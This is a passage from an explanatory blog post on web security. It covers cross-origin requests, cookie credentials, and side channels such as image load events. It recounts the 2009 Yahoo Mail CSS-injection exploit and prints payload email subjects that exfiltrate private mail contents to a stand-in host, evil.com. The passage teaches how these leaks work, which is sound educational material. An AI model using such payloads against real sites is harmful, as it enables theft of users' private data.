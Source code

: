 APIs like these let you make a request to another website and process the response in a particular way, without the other site's consent.

This started getting complicated in 1994 with the advent of HTTP cookies. HTTP cookies became part of a set of things we call [_credentials_](https://fetch.spec.whatwg.org/#credentials), which also includes TLS client certificates (not to be confused with server certificates), and the state that automatically goes in the `Authorization` request header when using HTTP authentication (if you've never heard of this, don't worry, it's shite).

Credentials allow the server to maintain state about a particular user across multiple requests. It's how Twitter shows you _your_ feed, it's how your bank shows you _your_ accounts.

When you request other-site content using one of the methods above, it sends along the credentials for the other-site. And over the years that's created a colossal sackload of security issues.

```html
<img src="https://your-bank/your-profile/you.jpg" />
```

If the above image loads, I get a `load` event. If it doesn't load, I get an `error` event. If that differs depending on if you're logged in or not, that tells me a lot about you. I can also read the width and height of the image, which, if it differs from user to user, tells me even more.

This gets worse with a format like CSS, which has more capabilities, but doesn't immediately fail on parse errors. In 2009 it turned out Yahoo Mail was vulnerable to a fairly simple exploit. The attacker sends the user one email with a subject including `');}`, and later another with a subject including `{}html{background:url('//evil.com/?`:

```html
…
<li class="email-subject">Hey {}html{background:url('//evil.com/?</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">Yo ');}</li>
…
```

This means some of the user's private email data is sandwiched between something that will parse as a valid bit of CSS. Then, the attacker convinces the user to visit a page containing:

```html
<link rel="stylesheet" href="https://m.yahoo.com/mail" />
```

…which is loaded using `yahoo.com`'s cookies, the CSS parses, and sends private information to `evil.com`. Oh no.

And that's just the tip of the shitberg. From [browser bugs](/2018/i-discovered-a-browser-bug/) to [CPU exploits](<https://en.wikipedia.org/wiki/Meltdown_(security_vulnerability)>), these leaky resources have given us decades of problems.

# Locking things down

It's become pretty clear that the above was a mistake in the design of the web, so we no longer create APIs that can process these kinds of requests. Meanwhile, we've spent the last few decades patching things up as best we can:
